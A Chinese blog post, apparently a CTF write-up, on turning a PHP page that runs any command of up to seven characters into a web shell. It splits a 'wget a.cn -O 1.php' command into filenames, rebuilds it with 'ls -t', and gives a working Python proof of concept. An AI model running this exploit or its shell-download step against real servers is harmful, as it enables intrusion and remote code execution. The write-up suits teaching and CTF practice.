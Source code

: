 ```yaml
---
title: 从七个字符长度的任意命令执行到GetShell
url: 524.html
id: 524
categories:
  - hack_ctf
date: 2017-02-09 19:00:07
tags:
  - php
  - ctf
---
```


看到phithon在圈子里发了个题，感觉好坑，记录一下我走过的套路：
此题的代码很简单，如下：
<!--more-->

```php
<?php
if(strlen($_GET[1])<8){
     echo shell_exec($_GET[1]);
}
?>
```
要求要getshell。
### 分析
1. 直接写shell是不可能的，因为 `1=echo 1>1` 都8个字符了，已经超了
2. 下载一个shell也是不可行的，`1=wget a.cn`也超了。

所以需要想其他的办法。
@yichin告诉我，直接`1=>filename`,就可以创建文件，但是`1=1>filename`并没有办法把1写到文件中去，所以说这里只能够创建空文件，没有办法把内容写入到文件中去。可以利用的就只有文件名了。
利用文件名是否可以getshell呢？？ 

刚想到这里，yichin说这样`1=ls >a`,能否有办法写入个shell呢?  这句话一下子惊醒我了，我顿时明白了这里面套路。
思路是这样的：
> 我们把一条长的命令拆分为多个小段，把每一段都存为文件名，然后用 `1=ls >a`,创建文件a，执行a来getshell。
但是有一个后遗症，就是你得想办法解决好多换行的问题，下面会详细说。

思路有了，接下来就是要动手啦，但是我却走了好多弯路，分别都说一下：
1. 开始我想把最短的shell，```<?=`$_GET[1]`;```拆分为多个段，每段都做为文件名，然后ls一下重定向到一个php文件，就getshell了。想法很美好，但是现实很残酷`1=ls >a.php`长度都已经超了，所以不能直接写php文件。
2. 所以接下来就是想写个sh文件，执行sh文件来getshell，但是sh文件到底写啥命令？     
是echo 一个shell到php文件，还是用wget下载一个shell呢。
经过我的测试 ，我发现echo一个shell貌似不行或者说很麻烦，搞了好久也没成功，主要是php语句换行的问题。
虽然php一条语句读到分号才算结束，中间可以有多个换行，换行不影响执行，但是换行也是都限度的，就是关键词是不可再拆分的,比如：
```php
<?`
$_GET[1]
`;
```
这是可以运行的，没有问题，但是如果在`$_GET[1]`中任意一个地方添加一个换行，都是没办法运行的
```php

<?`
$_GET
[1]
`;
//无法运行
```
也就是说，`$_GET[1]`是没办法再拆分的，必须是一个整体。但是长度显然是超了。
接下来就只有最后一个方法了，下载一个shell了。
经过多次测试，发现下面sh文件是可以运行的：
```bash
wget\
 a.\
cn \
-O \
1.php
```
目的是到a.cn下载一个文件保存为1.php,就getshell了。
所以接下来我只需要把这个sh文件的每一行都存为一个文件名,然后`ls >a`,`sh a`，就坐等shell了。
（**注意：a.cn需要换成你的域名，自己做拆分的时候需要注意一点，`.`不能放在文件名开头，因为以`.`开头的文件名是隐藏文件，ls是列不出来的）

最后还有一个问题，就是ls 列出来文件名是按照字符字典[a-z]的顺序排列的，不能得到我们想要的顺序，这时候想到了按照创建时间先后排序。
因为 `ls -tr>a`长度已经超了，所以只有用`ls -t>a`了。
`ls -t`列出来的文件顺序是:最后创建的文件在最前面，所以我们创建文件的时候要先创建最后一行`1.php`,最后创建文件`wget\`

给个python写的POC：
```python
#!/usr/bin/python
#-*- coding: utf-8 -*- 

import requests 
def GetShell():
    url = "http://192.168.56.129/shell.php?1="
    fileNames = ["1.php","-O\ \\","cn\ \\","\ a.\\","wget\\"] 
    # linux创建中间有空格的文件名，需要转义，所以有请求"cn\ \\"
    # 可以修改hosts文件，让a.cn指向一个自己的服务器。
    # 在a.cn 的根目录下创建index.html ，内容是一个php shell 

    for fileName in fileNames:
        createFileUrl = url+">"+fileName
        print createFileUrl 
        requests.get(createFileUrl)
   
    getShUrl = url + "ls -t>1"
    print getShUrl
    requests.get(getShUrl)
    getShellUrl = url + "sh 1"
    print getShellUrl
    requests.get(getShellUrl)

    shellUrl = "http://192.168.56.129/1.php"
    response = requests.get(shellUrl)
    if response.status_code == 200:
        print "[*] Get shell !"
    else :
        print "[*] fail!"

if __name__ == "__main__":
    GetShell()
```